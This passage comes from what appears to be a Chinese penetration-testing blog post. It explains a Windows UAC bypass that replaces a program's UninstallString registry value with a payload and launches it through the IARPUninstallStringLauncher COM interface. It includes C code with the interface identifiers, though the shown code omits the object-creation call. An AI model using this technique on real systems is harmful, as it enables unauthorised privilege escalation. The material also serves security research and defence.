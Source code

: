 在之前的文章[《渗透基础——获得当前系统已安装的程序列表》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E8%8E%B7%E5%BE%97%E5%BD%93%E5%89%8D%E7%B3%BB%E7%BB%9F%E5%B7%B2%E5%AE%89%E8%A3%85%E7%9A%84%E7%A8%8B%E5%BA%8F%E5%88%97%E8%A1%A8/)曾提到过`控制面板` -> `程序` -> `程序和功能`中的程序列表对应以下注册表键值：

- 高权限程序对应注册表键值`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\`
- 低权限程序对应注册表键值`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Uninstall\`(实际上为`HKEY_USERS\[sid]\Software\Microsoft\Windows\CurrentVersion\Uninstall\`)

在卸载程序时，同时会删除程序对应的注册表键值

而我们在删除高权限的程序时，会删除`HKEY_LOCAL_MACHINE\`下的键值，正常情况下该操作会弹出UAC对话框，但实际上并没有，这里就可以判断系统“偷偷”绕过了UAC

如果我们能够模拟这个功能，那么也能“偷偷”绕过UAC

### 2、执行程序

注册表项Uninstall下有一个键为"UninstallString"，内容为要执行的命令

如果我们替换成payload，就能实现高权限执行，即UAC绕过并执行任意程序

以上两点相结合，满足了通过COM组件绕过UAC的必要条件

所以，接下来只要能够模拟卸载程序的功能即可

逆向分析过程和模拟卸载的功能ExpLife在他的文章中已经写得很详细，不再赘述

引用文中的分析：

> 通过调用位于CARPUninstallStringLauncherCOM组件中IARPUninstallStringLauncher接口的LaunchUninstallStringAndWait方法来实现卸载程序

关键代码如下：

```
	CLSID  clsid;
	IID iid;
	LPVOID ppv = NULL;
	HRESULT hr;
	PFN_IARPUninstallStringLauncher_LaunchUninstallStringAndWait pfn_LaunchUninstallStringAndWait = NULL;
	PFN_IARPUninstallStringLauncher_Release pfn_IARPUninstallStringLauncher_Release = NULL;
	if (IIDFromString(L"{FCC74B77-EC3E-4DD8-A80B-008A702075A9}", &clsid) ||
		IIDFromString(L"{F885120E-3789-4FD9-865E-DC9B4A6412D2}", &iid))
	return 0;
	CoInitialize(NULL);
	if (SUCCEEDED(hr))
	{
			pfn_LaunchUninstallStringAndWait  = (PFN_IARPUninstallStringLauncher_LaunchUninstallStringAndWait)(*(DWORD*)(*(DWORD*)ppv + 12));
			pfn_IARPUninstallStringLauncher_Release = (PFN_IARPUninstallStringLauncher_Release)(*(DWORD*)(*(DWORD*)ppv + 8));
			if (pfn_LaunchUninstallStringAndWait && pfn_IARPUninstallStringLauncher_Release)
			{
				pfn_LaunchUninstallStringAndWait((LPVOID*)ppv, 0, L"{18E78D31-BBCC-4e6f-A21D-0A15BBC62D49}", 0, NULL);
				pfn_IARPUninstallStringLauncher_Release((LPVOID*)ppv);
			}
	}
	CoUninitialize();
	return 0;
```
